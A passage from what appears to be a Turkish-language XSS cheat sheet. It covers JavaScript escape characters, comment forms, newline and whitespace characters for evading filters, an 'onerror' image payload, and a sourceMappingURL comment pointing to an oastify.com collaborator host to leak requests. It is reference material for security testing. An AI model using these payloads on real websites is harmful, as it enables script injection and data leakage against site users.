 ```javascript
"\f" //form feed
"\n" //new line
"\r" //carriage return
"\t" //tab
"\b" //backspace
"\f" //form feed
"\n" //new line
"\r" //carriage return
"\t" //tab
// Any other char escaped is just itself
```
**JS kodu içindeki boşluk yer değiştirmeleri**
```javascript
<TAB>
/**/
```
**JavaScript yorumları (şuradan** [**JavaScript Yorumları**](#javascript-comments) **hile)**
```javascript
//This is a 1 line comment
/* This is a multiline comment*/
<!--This is a 1line comment
#!This is a 1 line comment, but "#!" must to be at the beggining of the first line
-->This is a 1 line comment, but "-->" must to be at the beggining of the first line
```
**JavaScript yeni satırlar (şuradan** [**JavaScript yeni satır**](#javascript-new-lines) **hile)**
```javascript
//Javascript interpret as new line these chars:
String.fromCharCode(10)
alert("//\nalert(1)") //0x0a
String.fromCharCode(13)
alert("//\ralert(1)") //0x0d
String.fromCharCode(8232)
alert("//\u2028alert(1)") //0xe2 0x80 0xa8
String.fromCharCode(8233)
alert("//\u2029alert(1)") //0xe2 0x80 0xa9
```
**JavaScript boşlukları**
```javascript
log=[];
function funct(){}
for(let i=0;i<=0x10ffff;i++){
try{
eval(`funct${String.fromCodePoint(i)}()`);
log.push(i);
}
catch(e){}
}
console.log(log)
//9,10,11,12,13,32,160,5760,8192,8193,8194,8195,8196,8197,8198,8199,8200,8201,8202,8232,8233,8239,8287,12288,65279

//Either the raw characters can be used or you can HTML encode them if they appear in SVG or HTML attributes:
<img/src/onerror=alert&#65279;(1)>
```
**Yorum içinde Javascript**
```javascript
//If you can only inject inside a JS comment, you can still leak something
//If the user opens DevTools request to the indicated sourceMappingURL will be send

//# sourceMappingURL=https://evdr12qyinbtbd29yju31993gumlaby0.oastify.com
```
**Parantezsiz JavaScript**
````javascript
// By setting location
````